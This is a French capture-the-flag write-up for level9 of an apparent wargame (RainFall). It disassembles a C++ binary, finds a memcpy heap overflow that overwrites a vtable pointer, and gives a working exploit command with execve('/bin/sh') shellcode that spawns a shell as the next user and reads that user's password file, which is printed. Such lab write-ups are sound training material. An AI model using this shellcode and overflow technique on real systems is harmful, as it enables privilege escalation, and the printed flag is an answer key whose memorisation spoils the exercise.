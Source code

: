 # **Level 9**

Pour le `level9`, on explore le code avec `gdb`

```
(gdb) disas main
Dump of assembler code for function main:
   0x080485f4 <+0>:     push   %ebp
   0x080485f5 <+1>:     mov    %esp,%ebp
   0x080485f7 <+3>:     push   %ebx
   0x080485f8 <+4>:     and    $0xfffffff0,%esp
   0x080485fb <+7>:     sub    $0x20,%esp
   0x080485fe <+10>:    cmpl   $0x1,0x8(%ebp)
   0x08048602 <+14>:    jg     0x8048610 <main+28>
   0x08048604 <+16>:    movl   $0x1,(%esp)
   0x0804860b <+23>:    call   0x80484f0 <_exit@plt>
   0x08048610 <+28>:    movl   $0x6c,(%esp)
   0x08048617 <+35>:    call   0x8048530 <_Znwj@plt>
   0x0804861c <+40>:    mov    %eax,%ebx
   0x0804861e <+42>:    movl   $0x5,0x4(%esp)
   0x08048626 <+50>:    mov    %ebx,(%esp)
   0x08048629 <+53>:    call   0x80486f6 <_ZN1NC2Ei>
   0x0804862e <+58>:    mov    %ebx,0x1c(%esp)
   0x08048632 <+62>:    movl   $0x6c,(%esp)
   0x08048639 <+69>:    call   0x8048530 <_Znwj@plt>
   0x0804863e <+74>:    mov    %eax,%ebx
   0x08048640 <+76>:    movl   $0x6,0x4(%esp)
   0x08048648 <+84>:    mov    %ebx,(%esp)
   0x0804864b <+87>:    call   0x80486f6 <_ZN1NC2Ei>
   0x08048650 <+92>:    mov    %ebx,0x18(%esp)
   0x08048654 <+96>:    mov    0x1c(%esp),%eax
   0x08048658 <+100>:   mov    %eax,0x14(%esp)
   0x0804865c <+104>:   mov    0x18(%esp),%eax
   0x08048660 <+108>:   mov    %eax,0x10(%esp)
   0x08048664 <+112>:   mov    0xc(%ebp),%eax
   0x08048667 <+115>:   add    $0x4,%eax
   0x0804866a <+118>:   mov    (%eax),%eax
   0x0804866c <+120>:   mov    %eax,0x4(%esp)
   0x08048670 <+124>:   mov    0x14(%esp),%eax
   0x08048674 <+128>:   mov    %eax,(%esp)
   0x08048677 <+131>:   call   0x804870e <_ZN1N13setAnnotationEPc>
   0x0804867c <+136>:   mov    0x10(%esp),%eax
   0x08048680 <+140>:   mov    (%eax),%eax
   0x08048682 <+142>:   mov    (%eax),%edx
   0x08048684 <+144>:   mov    0x14(%esp),%eax
   0x08048688 <+148>:   mov    %eax,0x4(%esp)
   0x0804868c <+152>:   mov    0x10(%esp),%eax
   0x08048690 <+156>:   mov    %eax,(%esp)
   0x08048693 <+159>:   call   *%edx
   0x08048695 <+161>:   mov    -0x4(%ebp),%ebx
   0x08048698 <+164>:   leave
   0x08048699 <+165>:   ret
End of assembler dump.
(gdb) disas 0x804870e
Dump of assembler code for function _ZN1N13setAnnotationEPc:
   0x0804870e <+0>:     push   %ebp
   0x0804870f <+1>:     mov    %esp,%ebp
   0x08048711 <+3>:     sub    $0x18,%esp
   0x08048714 <+6>:     mov    0xc(%ebp),%eax
   0x08048717 <+9>:     mov    %eax,(%esp)
   0x0804871a <+12>:    call   0x8048520 <strlen@plt>
   0x0804871f <+17>:    mov    0x8(%ebp),%edx
   0x08048722 <+20>:    add    $0x4,%edx
   0x08048725 <+23>:    mov    %eax,0x8(%esp)
   0x08048729 <+27>:    mov    0xc(%ebp),%eax
   0x0804872c <+30>:    mov    %eax,0x4(%esp)
   0x08048730 <+34>:    mov    %edx,(%esp)
   0x08048733 <+37>:    call   0x8048510 <memcpy@plt>
   0x08048738 <+42>:    leave
   0x08048739 <+43>:    ret
End of assembler dump.
```
Et on decompile le code

```
void main(int param_1,int param_2)
{
  N *this;
  undefined4 *this_00;
  
  if (param_1 < 2) {
                    // WARNING: Subroutine does not return
    _exit(1);
  }
  this = (N *)operator_new(0x6c);
  N::N(this,5);
  this_00 = (undefined4 *)operator_new(0x6c);
  N::N((N *)this_00,6);
  N::setAnnotation(this,*(char **)(param_2 + 4));
  (**(code **)*this_00)(this_00,this);
  return;
}

void __thiscall N::setAnnotation(N *this,char *param_1)
{
  size_t __n;
  
  __n = strlen(param_1);
  memcpy(this + 4,param_1,__n);
  return;
}
```

On comprend rapidement que le code prend le premier input utilisateur, rempli une structure avec un `memcpy` (fonction qui permet l'overflow)
En regardant le code assembleur, on voit un call a `edx`, en remontant un peu, on peut facilement comprendre ce qui ce passe

```
   0x0804867c <+136>:   mov    eax,DWORD PTR [esp+0x10]
   0x08048680 <+140>:   mov    eax,DWORD PTR [eax]
   0x08048682 <+142>:   mov    edx,DWORD PTR [eax]
   0x08048684 <+144>:   mov    eax,DWORD PTR [esp+0x14]
   0x08048688 <+148>:   mov    DWORD PTR [esp+0x4],eax
   0x0804868c <+152>:   mov    eax,DWORD PTR [esp+0x10]
   0x08048690 <+156>:   mov    DWORD PTR [esp],eax
   0x08048693 <+159>:   call   edx
```

Donc le code recupere la valeur de `esp+16` puis la `dereference` deux fois

Commençons par trouver la position initial avec l'overflow

```
(gdb) run $(python -c "print'a'*108+'ABCDEFGHIJKLMNOPQRSTUVWXYZ'")
Starting program: /home/user/level9/level9 $(python -c "print'a'*108+'ABCDEFGHIJKLMNOPQRSTUVWXYZ'")

Breakpoint 1, 0x0804867c in main ()
(gdb) si
0x08048680 in main ()
(gdb) x $eax
0x804a078:      0x44434241
```

> Comme `0x44434241` correspond a `ABCD` on sait que l'overflow ce fais juste apres le buffer

Maintenant il n'y a plus qu'a dereferencer l'addresse deux fois et mettre notre `shellcode` prefere pour que notre payload soit complete

On regarde dans la heap ou se trouve notre string

```
(gdb) x/64wx 0x804a078 - 112
0x804a008:      0x08048848      0x41414141      0x41414141      0x41414141
0x804a018:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a028:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a038:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a048:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a058:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a068:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a078:      0x45444342      0x00000000      0x00000000      0x00000000
```
> On voit quel demarre a `0x0804a00c`

On ecrit notre payload

```
level9@RainFall:~$ ./level9 $(python -c "print'\x10\xa0\x04\x08'+'\x14\xa0\x04\x08'+'\x90'*55+'\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh'+'\x0c\xa0\x04\x08'")
$ id
uid=2009(level9) gid=2009(level9) euid=2010(bonus0) egid=100(users) groups=2010(bonus0),100(users),2009(level9)
$ cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d90672
```

> ### NEXT : [Bonus0](/bonus0/resources/README.md)
